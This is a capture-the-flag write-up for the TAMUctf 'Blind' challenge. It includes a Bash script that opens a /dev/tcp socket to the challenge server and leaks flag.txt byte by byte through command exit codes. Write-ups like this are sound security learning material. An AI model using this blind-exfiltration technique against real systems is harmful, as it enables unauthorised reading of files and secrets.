 # TAMUctf_Blind
Write up of the challenge Blind from TAMUctf
## Recon
I connected to `nc challenges.tamuctf.com 3424`

I got back the prompt `Execute:`

When Typing a command a number is returned. I figured out that this must be the Linux/ UNIX exit codes.

After playing around for a bit I found out that typing `cat flag.txt` returns 0, meaning the operation was successful and a flag.txt file exists in the current directory.

## Solution
My plan was to return the flag over these error codes, since you're able to send numbers up to 255 with the `exit` command.

I wrote a short Bash script to extract the flag as decimal numbers:
```bash
#!/usr/bin/env bash

exec 3<>/dev/tcp/challenges.tamuctf.com/3424;                             #Setting up a Socket

for i in {1..30}
do
        #Convert each Byte and send exit with error code
        echo "exit \$(printf '%d' \"'\$(cat flag.txt|cut -c$i-$i)\")" >&3 
done
cat <&3
```
It sends this command `exit \$(printf '%d' \"'\$(cat flag.txt|cut -c$i-$i)\")` for the server to get executed.
I get the flag with cat `flag.txt` pipe that to `cut -c$i-$i` because I can only extract one letter at a time.
The letter gets converted to its decimal equivalent with `printf '%d' "'[Output from cat and cut]'`.

Now all that is left is to convert the flag back to ASCII and you get:
`gigem{r3v3r53_5h3ll5}`
